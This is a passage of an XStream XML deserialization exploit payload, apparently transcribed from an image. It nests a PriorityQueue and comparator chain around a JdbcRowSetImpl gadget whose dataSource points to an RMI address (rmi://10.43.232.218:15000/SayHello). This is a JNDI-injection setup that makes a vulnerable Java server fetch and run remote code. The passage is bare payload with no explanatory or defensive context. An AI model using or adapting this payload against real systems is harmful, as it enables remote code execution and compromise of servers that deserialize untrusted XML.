 ```xml
                                <jaxbObject class="com.sun.rowset.JdbcRowSetImpl" serialization="custom">
                                    <javax.sql.rowset.BaseRowSet>
                                        <default>
                                            <concurrency>1008</concurrency>
                                            <escapeProcessing>true</escapeProcessing>
                                            <fetchDir>1000</fetchDir>
                                            <fetchSize>0</fetchSize>
                                            <isolation>2</isolation>
                                            <maxFieldSize>0</maxFieldSize>
                                            <maxRows>0</maxRows>
                                            <queryTimeout>0</queryTimeout>
                                            <readOnly>true</readOnly>
                                            <rowSetType>1004</rowSetType>
                                            <showDeleted>false</showDeleted>
                                            <dataSource>rmi://10.43.232.218:15000/SayHello</dataSource>
                                            <params/>
                                        </default>
                                    </javax.sql.rowset.BaseRowSet>
                                    <com.sun.rowset.JdbcRowSetImpl>
                                        <default>
                                            <iMatchColumns>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                            </iMatchColumns>
                                            <strMatchColumns>
                                                <string>foo</string>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                            </strMatchColumns>
                                        </default>
                                    </com.sun.rowset.JdbcRowSetImpl>
                                </jaxbObject>
                            </dataSource>
                        </message>
                        <satellites/>
                        <invocationProperties/>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>

```